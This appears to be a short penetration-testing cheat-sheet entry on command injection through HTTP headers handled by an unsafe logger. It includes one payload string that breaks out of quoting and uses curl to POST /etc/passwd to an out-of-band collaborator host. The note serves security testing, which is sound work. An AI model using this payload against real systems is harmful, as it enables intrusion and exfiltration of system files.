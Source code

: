 ### unsafe logger
If an unsafe logger is used, an attacker can inject code and execute arbitrary commands, 
even if the page being accessed is a 404 page. 
Always test HTTP request headers to make sure the application is handling the headers correctly.
Try it every possible header
`";curl -X POST -d @/etc/passwd http://burp_collobrator.com/ #`
